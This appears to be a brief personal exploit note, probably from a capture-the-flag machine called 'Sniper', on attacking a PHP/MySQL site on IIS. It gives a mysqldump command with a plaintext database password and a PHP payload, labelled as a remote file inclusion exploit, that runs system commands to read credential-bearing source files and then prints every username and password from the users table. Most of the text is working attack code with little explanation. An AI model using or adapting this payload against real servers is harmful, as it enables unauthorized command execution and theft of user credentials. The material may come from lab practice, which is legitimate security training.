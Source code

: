 ### php mysql IIS

cd “C:\Program Files\MySql\MySQL Server 8.0\bin”
./mysqldump.exe -h 127.0.0.1 -P 3306 -u dbuser -p 36mEAhz/B8xQ~2VM  -q sniper > c:\tmp\r.db


=========
OU
=========

Exploit d'une RFI sur IIS (lecture de repertoire puis requete mysql)


<?php

echo system('whoami');
echo system('type ..\user\login.php');
echo system('type ..\user\db.php');
echo system('type ..\user\registration_old123123123847.php');



session_start();

$query = "SELECT * FROM `users`";
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }

$result = mysqli_query($con,$query) or die(mysql_error());
echo "======================================================";
$rows = mysqli_num_rows($result);
echo $rows;
while($row = $result->fetch_assoc()) {
        echo "<tr><td>".$row["id"]."</td><td>".$row["username"]." ".$row["password"]."</td></tr>";
    }
echo "-------------------------------------------------------";

?>



